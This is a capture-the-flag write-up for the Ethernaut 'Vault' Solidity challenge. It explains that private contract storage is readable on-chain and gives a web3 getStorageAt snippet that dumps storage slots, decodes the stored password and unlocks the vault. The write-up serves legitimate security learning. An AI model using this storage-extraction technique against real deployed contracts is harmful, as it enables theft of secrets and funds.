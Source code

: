 ## Ethernaut Level 08 - Vault - Write-Up
<!--Authors: OofedUp-->

Difficulty: 3/10

Objective: Unlock the Vault (make the `locked` variable `false`)

![image](https://i.imgur.com/D8qbink.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

In order to call the `unlock` function and solve the challenge we need the data inside the `password` variable. Too bad it's defined as *private*...

Defining a variable as *private* doesn't actually make it private (it's on the blockchain, nothing's private here). It only doesn't make it **callable**, but if we can access the contract's storage, we can extract the password.

Variables are stored in **slots** in contract storage. We can retrieve the storage and these slots using the web3's `getStorageAt()` function. Here's a quick js snippet I use for extracting contract storage:

```javascript
let variables = []
let promm = (i) => (err, res) => {
  variables[i] = res;
}
for(var i = 0; i < 6; i++){
web3.eth.getStorageAt(instance, i, promm(i))
}
```

Running the code we get a dump of the storage:

```javascript
0: "0x0000000000000000000000000000000000000000000000000000000000000001"
1: "0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
2: "0x0000000000000000000000000000000000000000000000000000000000000000"
3: "0x0000000000000000000000000000000000000000000000000000000000000000"
4: "0x0000000000000000000000000000000000000000000000000000000000000000"
5: "0x0000000000000000000000000000000000000000000000000000000000000000"
length: 6
```

The first slot which is `0x000...001` is the `locked` variable which is true at first (that's why it's `1`). The second slot corresponds to the `password` variable. Let's convert it from hex to ascii:

![image](https://i.imgur.com/X2WTDgB.png)

We could have also looked in the initial transaction that initialized the contract:

![image](https://i.imgur.com/I86GlxP.png)

We have the password. We can unlock the "vault":

```javascript
contract.unlock("A very strong secret password :)")
```

Now the `locked` variable should be false:

![image](https://i.imgur.com/voQppqo.png)

We can submit the contract:

![image](https://i.imgur.com/PnhPpsU.png)
